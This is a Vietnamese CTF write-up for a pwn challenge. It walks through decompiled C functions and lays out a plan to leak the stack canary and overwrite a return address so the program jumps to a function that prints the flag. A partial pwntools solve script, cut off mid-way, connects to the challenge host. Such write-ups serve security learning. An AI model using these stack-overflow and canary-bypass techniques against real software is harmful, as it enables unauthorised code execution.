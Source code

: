 Nhìn thì ta biết hàm chuyển 8 byte (16 ký tự char nhá) đầu của đầu vào gán vào `v1` làm địa chỉ. Rồi in nó ra màn hình cho mình.

```c
int __fastcall print_buf(__int64 a1, int a2)
{
  int i; // [rsp+1Ch] [rbp-4h]

  for ( i = 0; i < a2; ++i )
    printf("%02X", *(unsigned __int8 *)(i + a1));
  return puts("\n");
}
```

Rồi hàm này thì in ra giá trị của địa chỉ `v1` của nó trên stack ra màn hình.
Ủa ủa rồi flag ở đâu??? Hay thì làm gì bây giờ nhỉ hí hí🥲🥲
Đi kiểm tra qua các hàm của chương trình thì thấy có hàm nè:

```c
unsigned __int64 this_function_literally_prints_the_flag()
{
  int fd; // [rsp+Ch] [rbp-54h]
  char buf[72]; // [rsp+10h] [rbp-50h] BYREF
  unsigned __int64 v3; // [rsp+58h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  fd = open("flag.txt", 0);
  read(fd, buf, 0x40uLL);
  puts(buf);
  close(fd);
  return __readfsqword(0x28u) ^ v3;
}
```

Rồi ý tưởng đã có là ta đã ghi đè lên địa chỉ return về địa chỉ của hàm đọc file `flag.txt`:

1. Tìm khoảng cách giữa địa chỉ hàm main so với địa chỉ `this_function_literally_prints_the_flag`.
2. Kiểm tra cấu tạo stack ở hàm `gimme_pointer` để từ đó input đúng vị trí chèn địa chỉ đó.

Stack `gimme_pointer` khi được phân tích ta nhận được:
    - read bufer (32 bytes) - nơi lưu trữ những gì mình nhập vào và có thể đè lên các giá trị như stack canary và rbp point.
    - stack canary (8 bytes)
    - rbp point (8 bytes)
    - return address (8 bytes) - đây là địa chỉ sau khi chạy xong chương trình `gimme_pointer` thì sẽ nhảy về đó.

Dưới đây là code giải chương trình tham khảo học hỏi từ các cao nhân:

```py

from pwn import *

r = remote('pwn.bbctf.fluxus.co.in', 4002)

r.readline()
r.readline()
add_get = int(r.readline().split()[-1], 16)
cookie_add = add_get + 0x18 #vị trí ở stack chứa giá trị coockie của mỗi lần chạy nhằm tránh lỗi canary
r.readline()

cookie_add = hex(int.from_bytes((cookie_add).to_bytes(8, 'little'), byteorder='big'))[2:]

r.sendline(cookie_add.encode())

r.recv().split()
cookie = r.recv().split()[0]
```